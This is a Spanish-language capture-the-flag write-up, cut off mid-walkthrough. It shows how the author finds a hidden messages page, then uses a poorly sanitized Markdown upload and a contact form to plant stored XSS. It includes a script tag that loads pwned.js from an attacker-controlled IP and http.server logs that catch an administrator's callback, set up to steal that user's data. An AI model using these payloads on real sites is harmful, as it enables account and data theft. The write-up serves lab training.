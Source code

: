 Observamos que hay etiquetas `href` que redireccionan a rutas que siguen la estructura `index.php?page=`. Como en gobuster encontramos el endpoint `messages`, probamos a acceder con este formato: `index.php?page=messages`. Vemos que la página es accesible, solo que no visualizamos nada. Podemos suponer que es una pestaña oculta para usuarios sin privilegios, pero accesible para un administrador. Siendo una etiqueta 'messages' y habiendo una pestaña de `Contact Us`, podemos pensar que hay alguna forma de enviar mensajes que un administrador reciba en este apartado que nosotros ahora no podemos visualizar.

![Captura](./Imágenes/web_2.png)

En la página web principal, vemos que tenemos pocas acciones a ejecutar, pero dos son interesantes: una que permite subir un archivo Markdown, el cual comprobamos que está mal sanitizado y permite inyecciones XSS (tan solo hay que evadir el control de subida de archivos subiendo un archivo `.md` cuyo contenido sea JavaScript); y la otra acción es un panel de contacto, donde, al ver que se ejecuta código JavaScript, pensamos en capturar información privilegiada de un posible administrador que reciba nuestro mensaje. Por lo tanto, hacemos una traza para comprobar que hay alguien recibiendo nuestro mensaje de contacto malicioso.

![Captura](./Imágenes/web_1.png)

Podemos confirmar que algún usuario recibió nuestro mensaje y pinchó en el enlace. Ahora podemos tratar de exfiltrar información de este usuario privilegiado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:01:45] code 404, message File not found
10.10.11.44 - - [27/Oct/2025 12:01:45] "GET /test HTTP/1.1" 404 -
```

---

## Explotación

Por un lado, vamos a subir un archivo `.md` que envíe una solicitud a nuestro servidor y que de él trate de acceder a un recurso `.js` malicioso.

```html
<script src="http://10.10.16.12/pwned.js"></script>
```

Hacemos otra traza. Subimos el archivo, nos dice si queremos obtener el link (abajo a la derecha), pinchamos y nos redirecciona a una URL donde está almacenado nuestro archivo. Si tenemos abierto nuestro servidor, veremos que efectivamente un usuario recibe el mensaje y trata de acceder al recurso solicitado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.12 - - [27/Oct/2025 12:14:42] code 404, message File not found
10.10.16.12 - - [27/Oct/2025 12:14:42] "GET /pwned.js HTTP/1.1" 404 -
```

Lo que haremos es crear en nuestra máquina atacante un archivo `pwned.js` que contenga el siguiente código (lo explicamos a continuación):
